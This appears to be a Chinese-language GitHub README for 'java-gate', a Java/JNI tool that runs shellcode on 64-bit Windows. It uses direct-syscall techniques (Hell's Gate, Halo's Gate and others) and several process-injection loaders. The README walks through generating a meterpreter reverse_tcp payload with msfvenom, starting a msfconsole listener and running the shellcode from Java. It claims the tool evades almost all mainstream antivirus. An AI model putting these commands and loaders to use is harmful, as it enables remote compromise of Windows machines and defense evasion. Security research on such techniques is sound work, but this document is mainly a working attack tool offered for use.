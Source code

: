 # java-gate

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/github/downloads/4ra1n/java-gate/total)
![](https://img.shields.io/github/v/release/4ra1n/java-gate)

`java-gate` 项目可以通过简单的 `Java` 代码实现 `Hell's Gate` 相关技术（直接的系统调用）

```java
byte[]shellcode=new byte[]{(byte)0xfc,(byte)0x48...};
HellsGate gate=new HellsGate(shellcode);
gate.exec();
```

并且支持多种由 `Hell's Gate` 演变而来的技术，如光环之门 `Halo's Gate` 回收之门 `Recycled Gate`
塔尔塔罗斯之门 `Tartarus Gate`
等，除了系统调用相关的功能，使用 `C` 和 `NASM/MASM` 汇编编译和构建，通过 `JNI` 在 `Java` 层调用。
另外提供了很多常见的 `Shellcode` 注入方式，例如 `APC` 注入，和远程线程注入等技术。各种底层技术都可以通过简单的 `Java` 代码做到。

## 介绍

为什么以 `java-gate` 命名：该项目主要集成了各种直接系统调用相关的技术，如地狱之门，光环之门等，因此以`Java`
之门命名，另外可以理解为 `Java` 与底层之间的一扇门。

注意：

- 该项目仅支持64位 `Windows` 和64位 `JVM` （由于 `JNI` 规定64位 `JVM` 只能加载64位 `DLL`）
- 建议使用64位的`shellcode`（例如`windows/x64/meterpreter/reverse_tcp`）
- 使用任意方式加载 `shellcode` 都有可能会导致 `JVM` 崩溃（例如 `shellcode` 没有恢复现场）

## 快速开始

(1) `Maven` 使用 `jitpack` 仓库

```xml

<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) 导入项目

```xml

<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.1</version>
</dependency>
```

(3) 获取 `shellcode`

这里以 `meterpreter` 为例

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) 启动 `msfconsole` 监听

这里以 `meterpreter` 为例

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) 编写测试程序

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) 上线

`msfconsole` 成功上线

系统调用部分如下，使用方式和上文类似，更换类名即可

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

加载器部分如下，使用方式和上文类似，更换类名即可

| Module     | Class                                | Description               | Optional |
|:-----------|:-------------------------------------|:--------------------------|:---------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | 通过NtTestAlert的APC注入       | /        |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | 简单的基于线程的APC注入             | /        |
| crt        | me.n1ar4.gate.loader.CRTLoader       | 简单的远程线程注入                 | 进程名称     |
| divide     | me.n1ar4.gate.loader.DivideLoader    | 创建进程并远程线程注入该进程            | /        |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | 创建新进程并APC注入               | /        |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | 基于EtwpCreateEtwThread函数注入 | /        |
| rip        | me.n1ar4.gate.loader.RIPLoader       | 修改线程上下文RIP寄存器执行shellcode  | /        |

命令行工具的使用如下

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

由于 `JVM` 可能崩溃，有一种创建新进程的办法执行

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

这同样是一种思路，需要在自定义代码中运行本项目可以参考代码 `JavaGate#runNewJVM`

## 构建

在 `Release` 中存在打包好的版本，但如果你不放心，或者需要添加自己的功能，可以参考这里手动构建

请注意，该项目仅适用于 `Windows` 64位和 `JVM` 64位环境，因此只能在该环境下编译和构建

**(1) MSVC x64**

`CMake Toolchains` 使用 `MSVC x64` 工具，大部分汇编基于 `MSVC` 的 `ml64` 编译器

**(2) CMake 3.x**

`C`和汇编代码使用`CMake`编译和构建，生成 `JNI` 对应的 `DLL` 文件，建议使用 `CLion`

**(3) NASM**

大部分汇编使用 `MASM` 编译，但部分汇编使用 `NASM` 编译，需要单独下载和配置到 `PATH`

**(4) JDK 8 & Maven**

`Java` 部分代码使用 `Java 8` 和 `Maven` 进行构建，建议使用 `IDEA`

**(5) Python 3.x**

本项目使用 `Python` 做一些辅助工具，实际上不是必须的选项

## 一些测试

可过几乎所有主流杀软，某些时候会提示 `Java` 存在风险，但不影响 `meterpreter` 反弹 `shell` 上线等功能

## 参考与感谢

非常感谢以下优秀的项目提供的代码（大部分代码都参考了这些）

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## 免责声明

此工具仅作为网络安全攻防研究交流，请勿用于非法用途
